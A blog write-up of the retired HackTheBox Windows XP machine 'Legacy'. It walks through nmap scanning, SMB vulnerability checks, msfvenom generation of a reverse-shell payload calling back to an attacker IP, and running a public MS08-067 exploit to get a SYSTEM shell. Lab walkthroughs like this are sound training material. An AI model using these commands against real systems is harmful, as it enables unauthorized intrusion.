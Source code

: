 ```yaml
---
layout: default
title: HackTheBox - Legacy Writeup
permalink: /htb/legacy
---
```


# Legacy

> **Name:** Legacy
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Legacy](https://www.hackthebox.eu/home/machines/profile/2) was released on 15 Mar 2017 and is one of the first boxes released on the platform. It is one of the easier Windows boxes available, which makes it a good place to start for beginners. I originally completed this when it had already retired and I was making my way through some of the older boxes to help further my understanding. As it was so simple I never made notes so I've had to fully go back and re-do the box to make this write-up. 


## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.4 -sC -sV -oA full-scan ```

This command runs a SYN, or half-open scan against all ports. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/legacy/scan-results.png)


## Nmap Vulnerability Scan

The big thing to take away from these results is that it is a Windows XP box. This went end of life in April 2014, so there is bound to be some unpatched vulnerabilities to play with! SMB has had many vulnerabilities over the years and is a good place to start. A nice easy way to quickly check for vulnerabilities is using the Nmap scripting engine. By checking the contents of the Nmap scripts directory it is possible to see which ones are available.

![Nmap SMB Vuln Scripts]({{site.url}}/assets/legacy/nse-search.png)

As Nmap scripts are things that you may be checking quite often I find it useful to setup an alias to the command shown in the screenshot above. You can do this by adding the following line into your ```.bashrc``` file: 

``` alias nse=ls -al /usr/share/nmap/scripts/ | grep ```

Now you can just use ```nse smb-vuln``` to get the same results. Since there are so many SMB vuln scripts available in Nmap we will just load all of them up with the following command:

``` nmap -p 139,445 10.10.10.4 --script=smb-vuln* ```

The results show that the SMB service is vulnerable to MS08-067, made famous by Conficker, and MS17-010 that was made famous by the Wannacry ransomware attacks. As the box name is Legacy it's a safe assumption to make that MS08-067 is the intended method. Especially since I know there is another box that has MS17-010 as the intended method. 

## Exploit

Searchsploit shows a few exploits are available for this, however there is a good one on Github by [Jivoi](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py) which has options for multiple OS. It does require some shelcode to be switched out for the reverse shell. This can be created using msfvenom with this command:

``` msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.32 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 ```

Lets breakdown what all those flags mean:

> ``` -p ``` is the payload of choice, in this case a simple TCP reverse shell for Windows.
>
> ``` LHOST= ``` is the listening host IP address to be set. 
>
> ``` LPORT= ``` is the port you want to listen on. 
>
> ``` EXITFUNC= ``` sets a function hash in the payload that specifies a DLL and a function to call once the payload is complete.
>
> ``` -b ``` is a list of bad characters - these were taken directly from Jivoi's script.
>
> ``` -f ``` is the format to create the shellcode in. 
>
> ``` -v ``` sets the variable that the shellcode will be assigned to. The default is ``` buf ``` and I am only changing this to match what is in the original script.
>
> ``` -a ``` sets the architecture the shellcode is to be run on. 

This will output some shellcode as show below, that can be copy pasted into the exploit to replace the existing shellcode. 

![Shellcode]({{site.url}}/assets/legacy/generate-shellcode.png)

As the existing script is written in python2 and debian / Kali having dropped support for it, the exploit needs to be updated to python3. I've uploaded a copy of it to [github](https://github.com/Agent-Tiro/HackTheBoxScripts/blob/master/Python3-MS08-067.py) incase it's of use to anyone else. It didn't require much editing, mainly sorting the print statements and making sure any payloads or set to bytes.

Running an Nmap scan to do OS detection gives an indication that it is most likely XP SP3. In Nmap ```-O``` is the flag to use for OS detection.

![OS Detection]({{site.url}}/assets/legacy/aggressive-os.png)

The exploit is launched with the following command, using option 6 for XP SP3:

``` python3.7 ms08-067.py 10.10.10.4 6 445 ```

![Exploit]({{site.url}}/assets/legacy/legacy-exploit.png)

Upon completion the listener that was setup beforehand will have a shell waiting for us, running as SYSTEM. 

![Shell]({{site.url}}/assets/legacy/catching-shell.png)

As whoami isn't on this version of XP it would require uploading it to say definitively that we are SYSTEM. But there are a few giveaways. Firstly, landing in ``` C:\Windows\system32 ``` generally only happens for privileged users, and secondly being able to read the root flag.

